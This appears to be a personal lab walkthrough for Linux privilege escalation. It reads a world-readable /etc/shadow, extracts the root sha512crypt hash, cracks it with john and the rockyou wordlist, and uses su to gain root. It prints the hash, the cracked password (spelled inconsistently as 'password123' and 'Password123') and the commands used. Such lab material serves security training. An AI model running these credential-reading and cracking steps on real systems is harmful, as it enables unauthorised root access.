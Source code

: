 The /etc/shadow file contains user password hashes, and by default is not readable by any user except for root.

If we are able to read the contents of the /etc/shadow file, we might be able to crack the root user’s password hash.

If we are able to modify the /etc/shadow file, we can replace the root user’s password hash with one we know.

```bash - target
./lse.sh -i | more
```

![[Pasted image 20211230132303.png]]

1. Check the permissions of the / / etc /shadow file:

```bash - target
ls -l /etc/shadow
```

-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

-   Note that it is world readable.

2. Extract the root user’s password hash:

```bash target
head -n 1 /etc/shadow
```

```root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::```

3. Save the password hash in a file (e.g. hash.txt):

```bash - kali
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```
```

4. Crack the password hash using john :

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

password123 (?)

5. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
Password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)
